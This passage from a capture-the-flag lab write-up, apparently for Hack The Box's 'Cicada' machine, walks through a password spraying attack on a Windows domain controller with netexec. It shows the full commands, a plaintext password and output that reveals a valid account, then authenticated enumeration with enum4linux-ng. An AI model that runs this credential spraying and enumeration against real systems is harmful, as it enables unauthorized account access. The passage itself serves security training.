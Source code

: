 At this point, I noted the users down for further attempts to match them with the password I found earlier.

## Password Spraying Attack

Now that we have a password and a list of users, the next logical step was to attempt a password spraying attack to check which user might match the password. I used the `netexec` tool to try the password across all the discovered usernames.

```bash
┌──(mofe㉿mofe)-[~/files/htb/cicada]
└─$ netexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Administrator:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\Guest:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\krbtgt:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\CICADA-DC$:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\david.orelious:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\emily.oscars:Cicada$M6Corpb*@Lp#nZp!8 STATUS_LOGON_FAILURE 
```

As we can see from the output, the password worked for the user **michael.wrightson**. This user will be our target for further exploitation.


## Further Enumeration with enum4linux-ng

After obtaining access with `michael.wrightson`, I checked to see if I could access shares I didn't previously have access to, but to no avail.

With credentials for `michael.wrightson`, I used `enum4linux-ng` to gather more information about the target system. The command used is shown below:

```bash
python3 enum4linux-ng.py -A -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35

This provided a lot of information, but what caught my attention was the "Users via RPC" section. Specifically, the user david.orelious had a description that contained what appears to be their password:

```bash
 ====================================
|    Users via RPC on 10.10.11.35    |
 ====================================
[*] Enumerating users via 'querydispinfo'
[+] Found 8 user(s) via 'querydispinfo'
[*] Enumerating users via 'enumdomusers'
[+] Found 8 user(s) via 'enumdomusers'
[+] After merging user results we have 8 user(s) total:
'1104':                                                                                                                              
  username: john.smoulder                                                                                                            
```